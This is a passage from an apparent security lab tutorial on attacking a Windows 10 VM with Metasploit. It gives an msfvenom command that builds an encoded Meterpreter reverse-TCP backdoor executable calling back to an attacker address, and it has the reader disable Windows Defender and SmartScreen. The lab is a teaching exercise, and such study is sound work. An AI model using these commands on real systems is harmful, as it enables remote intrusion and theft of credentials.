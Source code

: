 # Hacking Windows using Metasploit / Meterpreter and Post-Exploitation
Metasploit Framework is a tool for developing and executing exploit code against a remote target machine.

### Backdoors
Backdoors are malicious files that contain Trojan or other infectious applications that can either halt the current system of a target machine or even gain partial/complete control over it. Attackers build such backdoors in attempt to gain remote access to victim machines. They send these backdoors through email, file-sharing web applications, shared networks drivers, among others, and entice the users to execute them. Once a user executes such application, and attacker can gain access to his/her affected machine and perform activities such as keylogging, sensitive data extraction, and so on.

### Objectives
* Learn to detect Trojan and Backdoor attacks.
* Creating a server and testing the network for attack.
* Attacking a network using a sample backdoor and monitor system activity.

### Requisites
* Kali Linux virtual machine
* Windows 10 virtual machine (Target)

***

Before beginning this lab, create a file called **passwords.txt** on **Windows 10** and write down some fake accounts like: 
* paypal: bobby123 / qwerty123
* twitter: bobby_123 / password123
* (...)

Save the file on your Desktop or Downloads folder.

_**Note: Make sure to disable Windows SmartScreen and Windows Defender**._

## Prepare the Backdoor

### 1. Create the Backdoor.exe
Switch to the Kali Linux and open the Terminal window.

Type the command to create the payload:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.0.2.42 -f exe > /root/Desktop/Backdoor.exe`

Make sure to put your Kali IP on `LHOST`. If works, you will get this message below:

```
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
```

